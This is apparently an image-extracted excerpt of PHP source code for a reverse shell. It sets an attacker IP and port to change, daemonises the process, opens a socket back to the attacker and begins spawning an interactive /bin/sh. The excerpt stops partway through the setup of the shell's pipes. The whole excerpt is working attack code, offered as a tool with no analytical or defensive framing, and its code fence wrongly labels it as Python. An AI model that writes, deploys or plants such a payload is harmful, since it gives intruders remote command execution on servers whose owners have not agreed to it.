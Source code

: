 ```python
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
```